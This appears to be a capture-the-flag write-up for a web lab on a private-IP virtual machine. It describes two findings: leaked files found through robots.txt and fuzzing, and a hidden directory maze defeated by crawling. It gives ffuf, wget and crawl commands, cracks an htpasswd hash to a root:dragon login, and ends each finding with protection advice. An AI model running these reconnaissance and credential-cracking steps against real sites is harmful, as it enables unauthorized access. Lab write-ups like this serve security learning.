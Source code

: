 <a id="orgddc9ff7"></a>

# informations_leaks


<a id="org544e94d"></a>

## Vulnerability

By doing some fuzzing on the website, we can found the file **robots.txt** which reveals informations of the content of the site.
On the page <http://192.168.56.105/whatever/> there is a **htpasswd** file.

1.  `ffuf -w ./informations_leaks/ressources/common.txt:FUZZ -u "http://192.168.56.105/FUZZ"`
2.  go to <http://192.168.56.105/robots.txt>
3.  go to <http://192.168.56.105/whatever/>
4.  `wget http://192.168.56.105/whatever/htpasswd`
5.  use <https://crackstation.net/> to decode the hash
6.  go to <http://192.168.56.105/admin/>
7.  log-in with root:dragon


<a id="orgbceed3d"></a>

## Protection

Don&rsquo;t store sensitive informations in the **robots.txt** file, assume that attackers will pay close attention to any locations identified in the file.


<a id="org5cc9184"></a>

# insecure_path


<a id="org81e7d39"></a>

## Vulnerability

On the page <http://192.168.56.105/.hidden/> found by the **robots.txt** there is some kind of labyrinth to protect the flag. But it stills vulnerable to crawling.

1.  cd ./insecure_path/ressources
2.  `bash crawl.sh "http://192.168.56.105/.hidden/" url_1 url_2 url_3`
3.  `grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt`


<a id="org8e2b5f0"></a>

## Protection

Don&rsquo;t hide important informations like that. Use authentication or **htaccess** file to protect the folder.
